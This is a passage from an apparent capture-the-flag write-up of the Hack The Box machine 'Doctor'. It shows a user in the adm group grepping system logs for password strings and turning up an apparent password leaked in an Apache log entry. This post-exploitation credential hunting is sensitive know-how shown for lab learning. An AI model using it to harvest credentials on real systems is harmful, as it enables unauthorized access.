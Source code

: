 

## Shell as shaun

### Enumeration

#### Manual

As web, I can see one other user on the box, shaun:



    web@doctor:/home$ ls
    shaun  web



`user.txt` is in shaun's home directory, but I can't read it yet.

web is also a member of the adm group:



    web@doctor:/home/shaun$ id
    uid=1001(web) gid=1001(web) groups=1001(web),4(adm)



This is interesting because it means that web can read log files. I did
a quick `grep` through all the logs for the string `passw` (which should
get both "passwd" and "password"):



    web@doctor:/var/log$ grep -r passw . 2>/dev/null   
    ./auth.log:Nov  1 11:42:05 doctor VGAuth[669]: vmtoolsd: Username and password successfully validated for 'root'.
    ./auth.log:Nov  1 11:42:11 doctor VGAuth[669]: vmtoolsd: Username and password successfully validated for 'root'.
    ./auth.log:Nov  1 11:42:20 doctor VGAuth[669]: message repeated 20 times: [ vmtoolsd: Username and password successfully validated for 'root'.]
    ./auth.log:Nov  1 11:42:37 doctor VGAuth[669]: vmtoolsd: Username and password successfully validated for 'root'.
    ./auth.log:Nov  1 11:42:50 doctor VGAuth[669]: message repeated 15 times: [ vmtoolsd: Username and password successfully validated for 'root'.]
    ./auth.log:Nov  1 11:42:51 doctor VGAuth[669]: vmtoolsd: Username and password successfully validated for 'root'.
    ./auth.log:Nov  1 11:42:52 doctor VGAuth[669]: message repeated 7 times: [ vmtoolsd: Username and password successfully validated for 'root'.]
    ./auth.log.1:Sep 22 13:01:23 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
    ./auth.log.1:Sep 22 13:01:28 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
    ./auth.log.1:Nov  1 11:42:04 doctor VGAuth[669]: vmtoolsd: Username and password successfully validated for 'root'.
    ./auth.log.1:Nov  1 11:42:04 doctor VGAuth[669]: vmtoolsd: Username and password successfully validated for 'root'.
    ./apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
    Binary file ./journal/62307f5876ce4bdeb1a4be33bebfb978/system.journal matches
    Binary file ./journal/62307f5876ce4bdeb1a4be33bebfb978/user-1001@8612c285930942bc8295a5e5404c6fb7-000000000000d0e1-0005ae7b997ca2d8.journal matches
    Binary file ./journal/62307f5876ce4bdeb1a4be33bebfb978/system@68325fc054024f8aac6fcf2ce991a876-000000000000cf5a-0005ae7b98c1acfe.journal matches
    Binary file ./journal/62307f5876ce4bdeb1a4be33bebfb978/system@68325fc054024f8aac6fcf2ce991a876-0000000000003ac7-0005ab70dc697773.journal matches
    Binary file ./journal/62307f5876ce4bdeb1a4be33bebfb978/user-1002@84e1503b20fd49eca2b6ca0b7d6fdeeb-00000000000176d6-0005af5694057aa6.journal matches
    Binary file ./journal/62307f5876ce4bdeb1a4be33bebfb978/system@68325fc054024f8aac6fcf2ce991a876-0000000000033c8f-0005afad8045c159.journal matches
